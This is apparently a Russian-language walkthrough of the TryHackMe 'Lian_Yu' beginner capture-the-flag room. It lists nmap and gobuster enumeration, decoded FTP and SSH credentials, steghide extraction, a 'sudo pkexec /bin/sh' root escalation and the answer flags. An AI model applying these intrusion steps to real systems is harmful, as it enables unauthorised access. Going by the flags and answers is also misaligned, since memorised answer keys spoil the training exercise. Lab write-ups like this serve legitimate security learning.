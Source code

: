 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Lian_Yu](https://tryhackme.com/r/room/lianyu) 

Всего 1 заданиe:
## Задание 1
Добро пожаловать в Lian_YU, этот CTF-бокс для новичков в стиле Arrowverse! Захватывайте флаги и получайте удовольствие.

### Ответьте на вопросы ниже
Разверните виртуальную машину и запустите перечисление.
```commandline
Ответ не нужен
```
Какой веб-каталог вы нашли?
```commandline
nmap -sC -sV 10.10.228.22 

Ports found ---
port 21/tcp - FTP - (vsftpd 3.0.2)
port 22/tcp - SSH - (OpenSSH 6.7p1)
port 80/tcp - HTTP - (Apache httpd)
port 111/tcp - RPC - (rpcbind)

gobuster dir -u http://10.10.228.22/ -w/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
# http://10.10.228.22/island
# Code Word -  'vigilante' - (this is our FTP username)
gobuster dir -u http://10.10.228.22/island -w/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```
```commandline
2100
```
Каково имя найденного вами файла?
```commandline
# http://10.10.228.22/island/2100
# Here it says there is a file with a '.ticket' extension.
gobuster dir --url 10.10.228.22/island/2100 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .ticket 
```
```commandline
green_arrow.ticket
```
какой пароль FTP?
```commandline
# http://10.10.228.22/island/2100/green_arrow.ticket
# Seems we found an encryption : 'RTy8yhBQdscX'
# Go to https://gchq.github.io/CyberChef/
# Use 'FromBase58' to decode it.
```
```commandline
!#th3h00d
```
как называется файл с паролем SSH?
```commandline
ftp 10.10.228.22
# Username - vigilante
# password - !#th3h00d
ls
cd /home
ls
cd vigilante
ls
mget filename *
ls
exiftool Leave_me_alone.png
# The correct header -- https://en.wikipedia.org/wiki/Portable_Network_Graphics
steghide extract -sf aa.jpg
# password
unzip ss.zip
```
```commandline
shado
```
пользователь.txt
```commandline
cat shado
# M3tahuman
ssh slade@10.10.228.22 
password - M3tahuman
ls
cat user.txt
```
```commandline
THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
```
корень.txt
```commandline
sudo -l
sudo pkexec /bin/sh
whoami
ls
cat root.txt
```
```commandline
THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)
